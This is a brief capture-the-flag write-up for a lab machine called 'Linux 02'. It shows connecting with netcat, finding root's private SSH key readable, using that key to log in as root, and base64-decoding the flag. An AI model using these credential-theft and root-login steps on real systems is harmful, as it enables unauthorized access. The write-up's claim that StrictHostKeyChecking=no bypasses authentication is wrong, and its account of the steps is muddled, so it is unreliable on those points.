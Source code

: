 # Linux 02
```bash
nc 192.168.10.7 9999
Where am I?
```

root `.ssh` folder is readable, [`id_rsa`](root_id_rsa) aswell

no success:
```bash
$ find / -type f -exec grep -Hn 'cyberctfd' {} \;
$ find / -type f -exec grep -Hn 'Y3liZXJj' {} \;
```

its not `cyberctfd{/home/ctf}`


no helpful env variables
```bash
$ printenv
USER=ctf
SHLVL=1
HOME=/home/ctf
OLDPWD=/home/ctf
PAGER=less
PS1=\h:\w\$ 
LOGNAME=ctf
LC_COLLATE=C
PATH=/bin:/usr/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/sbin
LANG=C.UTF-8
SHELL=/bin/ash
PWD=/home/ctf
CHARSET=UTF-8
```
As its said before the content from root is readable so in there we have the id_rsa

i tried to ssh to the machine with his ip 192.168.10.7 
```bash
ssh root@192.168.10.7 -i id_rsa -o StrictHostKeyChecking=no 
````
The flag -o (options) StrictHostKeyChecking=no allow us to go throw the autentitaction
It had the following error 
Pseudo-terminal will not be allocated because stdin is not a terminal.
So instead of that i tried with the root@localhost instead and now you are connected it give a encrypted text now u just decrypt it
```bash
ssh root@192.168.10.7 -i id_rsa -o StrictHostKeyChecking=no
echo "Y3liZXJjdGZkezFuZDMzZF93aDNyM193NDVfMX0=" | base64 -d
cyberctfd{1nd33d_wh3r3_w45_1} 
```


